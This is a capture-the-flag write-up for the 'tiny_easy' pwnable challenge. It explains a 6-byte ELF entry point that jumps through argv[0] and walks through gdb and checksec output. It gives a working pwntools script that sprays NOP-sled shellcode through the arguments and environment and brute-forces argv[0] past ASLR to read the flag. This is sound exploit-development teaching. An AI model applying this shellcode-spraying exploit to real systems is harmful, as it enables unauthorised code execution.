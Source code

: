 This challenge is quite tiny, we are dealing with a 32-bit ELF binary that is literally 90 bytes,
only 6 of which account for code with the rest constituting ELF and program headers.
Here are these important 6 bytes (extracted with Ghidra):

```
                      ************************************************
                      *                   FUNCTION                   *
                      ************************************************
                      undefined processEntry entry()
          undefined     AL:1              <RETURN>
                      entry                                 XREF[2]:  Entry Point(*),
                                                                      08048018(*)
   08048054 58         POP         EAX
   08048055 5a         POP         EDX
   08048056 8b 12      MOV         EDX, dword ptr [EDX]
   08048058 ff d2       CALL        EDX
```
The program pops two values from the stack and jumps to the dereferenced second one (stored in `edx`).
This might seem random, to get a better idea for what's happening let's debug the binary:

```
❯ gdb tiny_easy
(gdb) starti
Starting program: /home/martician/tiny_easy

Program stopped.
0x08048054 in ?? ()
(gdb) x/10x $esp
0xffffd5a0:	0x00000001	0xffffd782	0x00000000	0xffffd79c
0xffffd5b0:	0xffffd7ab	0xffffd7dc	0xffffd807	0xffffd841
0xffffd5c0:	0xffffd86b	0xffffd893
(gdb) x/s 0xffffd782
0xffffd782:	"/home/martician/tiny_easy"
(gdb) x/s 0xffffd79c
0xffffd79c:	"SHELL=/bin/zsh"
(gdb)
```
It looks like prior to the execution of the binary the OS sets the process image
so that arguments and environment variables together with pointers to them are stored on the stack.
We can observe that on the top of the stack we have `argc` which is the number of arguments
passed to the program, then we have the argument pointers and environment variable pointers arrays
`argv[]` and `envp[]` both terminated by `NULL` pointers.

The program pops `agrc` into `eax` (it basically discards it)
then pops `argv[0]` into `edx`, dereferences it (treating is as a 4-byte integer)
and jumps to it (via the `call` instruction).
This means that by manipulating `argv[0]` we could jump to (almost) any address in the binary.
Since the `tiny_easy` file is a static executable there aren't really many places of interest to us,
there is just the stack and fortunately it is executable (NX is disabled):
```
❯ checksec --file=tiny_easy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX disabled   No PIE          N/A        N/A          No Symbols	N/A	0		0		tiny_easy
```

From here the exploit looks clear:

- Encode shellcode in some of the arguments/environment variables.
- Set `argv[0]` to have the address of the shellcode.

There is one problem we need to concern ourselves with and that is ASLR.
Basically, since the address space is randomized, there is no fixed location for the stack.
However this security measure is relatively effective,
the stack still has to grow downwards so there is a limit for the range in which the OS puts it
(that's especially true for 32-bit binaries which don't have address space to spare).

By running the binary through a debugger we can observe that upon entry the top of the stack
lies in the address range `[0xff000000, 0xffffffff]` (this might even be a bit generous).
That's  a total of $2^{24}$ or around $17$ million addresses! Would we be able to bruteforce it?
Yes, by using a trick we can actually skip most of the addresses without missing our shellcode.
I have put more detailed comments in the code bellow to illustrate the idea:
```python
from pwn import *

# Silence info messages.
context.log_level = 'warning'
# Make the payload as long as possible (via nop sled)
# This will not only increases our chances of a hit but
# also allow us to make bigger jumps when bruteforcing the addresses.
payload = asm(shellcraft.nop() * (2**17 - 100) + shellcraft.cat('flag'))

# Contaminate the arguments and the environment as much as possible.
# This I pretty much got from https://alexsieusahai.github.io/Pwnable_kr-tiny-easy/
env = {str(i) : payload for i in range(10)}
argv = [b'junk'] + [payload] * 5

# bruteforce argv[0]
# As commented above we can make big jumps (i.e. 2**16 since the payload is bigger)
for i in range(0xff010101, 0xffffffff, 0x10000):
    argv[0] = p32(i)
    proc = process(argv=argv, executable='/home/tiny_easy/tiny_easy', env=env)
    rez = proc.recvall()
    if rez:
        print(rez)
```

Finally, if you are impatient you can go get some popcorn,
it takes about a minute or two to start hitting the correct addresses:

```
tiny_easy@pwnable:~$ python /tmp/ez/ez.py
...(flag)...

...(flag)...

...(flag)...

...
```
